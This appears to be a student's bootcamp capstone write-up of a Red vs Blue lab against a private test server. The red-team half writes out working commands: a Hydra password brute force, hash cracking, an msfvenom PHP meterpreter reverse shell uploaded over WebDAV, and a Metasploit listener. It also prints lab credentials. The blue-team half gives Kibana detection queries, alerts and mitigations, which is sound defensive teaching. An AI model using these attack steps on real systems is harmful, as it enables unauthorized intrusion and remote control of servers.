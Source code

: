 ##### Note: The report of this project is attached ['Project Slide'](https://github.com/Omolabake94/CyberSecurity_Bootcamp_HW/blob/main/WEEKLY_HOMEWORK/Red%20Vs%20Blue%20Project/Red%20Vs%20Blue%20Project.pdf) in pdf format
# Red Vs. Blue Team Project Summary
## Capstone Engagement, Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team: The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
- ![alt_text](RedvsBlueSC/image25.png)
* In the web browser, searched IP 192.168.1.105
* Information that helped with finding the secret folder is in the screenshot
* ![alt_text](RedvsBlueSC/image30.png)
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- ![alt_text](RedvsBlueSC/image29.png)
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- ![alt_text](RedvsBlueSC/image33.png)
- ![alt_text](RedvsBlueSC/image34.png)
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- ![alt_text](RedvsBlueSC/image3.png)
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- - ![alt_text](RedvsBlueSC/image6.png)
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell in my Kali machine
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- Copy the reverse shell from Kali into the WebdDAV directory
- ![alt_text](RedvsBlueSC/image5.png)
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- ![alt_text](RedvsBlueSC/image4.png)
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- ![alt_text](RedvsBlueSC/image2.png)
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- ![alt_text](RedvsBlueSC/image1.png)
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- ![alt_text](RedvsBlueSC/image10.png)
- ![alt_text](RedvsBlueSC/image11.png)
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- ![alt_text](RedvsBlueSC/image13-1.png)
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image14.png)
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image15.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image16.png)
- ALERT: Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to DoS conditions, as well as provide a hook against which to trigger alerts against suspiciously suspiciously fast series of requests that may be indicative of scanning.
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image17.png)
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- ![alt_text](RedvsBlueSC/image19.png)
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- ALERT: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: The secret_folder directory should be protected with stronger authentication. E.g., it could be moved to a server to which only key-based SSH access from whitelisted IPs is enabled
- The data inside of secret_folder should be encrypted at rest
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- ![alt_text](RedvsBlueSC/image18.png)
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
- Take a look at the HTTP status codes for the top queries [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image20.png)
- We can see on this panel the breakdown of 401 Unauthorized status codes as opposed to 200 OK status codes.
- We can also see the spike in both traffic to the server and error codes.
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image21.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image22.png)
- These are all results generated by the brute force attack with Hydra.
- ALERT: We could set an alert if 401 Unauthorized is returned from any server over a certain threshold that would weed out forgotten passwords. Start with 10 in one hour and refine from there
- We could also create an alert if the user_agent.original value includes Hydra in the name
- Create an alert that triggers after 3 lock outs by each user
- Mitigation: After the limit of 10 401 Unauthorized codes have been returned from a server, that server can automatically drop traffic from the offending IP address for a period of 1 hour. We could also display a lockout message and lock the page from login for a temporary period of time from that user.
- The fail2ban utility can be enabled to protect against brute force attacks
### 4. Find the WebDav Connection
- We can again see in the Top 10 HTTP requests [Packetbeat] ECS panel that the webdav folder was directly connected and files inside were accessed.
- ![alt_text](RedvsBlueSC/image23.png)
- We can see the passwd.dav file was requested as well as a file named shell.php
- ALERT: We can create an alert anytime this directory is accessed by a machine other than the machine that should have access
- Mitigation: Connections to this shared folder should not be accessible from the web interface.
- Connections to this shared folder could be restricted by machine with a firewall rule
### 5. Identify the Reverse Shell and meterpreter Traffic
- We can see the shell.php file in the webdav directory on the Top 10 HTTP requests [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image23.png)
- Remember that your meterpreter session ran over port 4444. Port 4444 is the default port used for meterpreter and the port used in all of their documentation. Because of this, many attackers forget to change this port when conducting an attack. You can construct a search query to find these packets.
- Query: `source.ip: 192.168.1.105 and destination.port: 4444`
- ALERT: We can set an alert for any traffic moving over port 4444.
- We can set an alert for any .php file that is uploaded to a server 
- Mitigation: File uploads should require authentication
- Removing the ability to upload files to this directory over the web interface would take care of this issue.
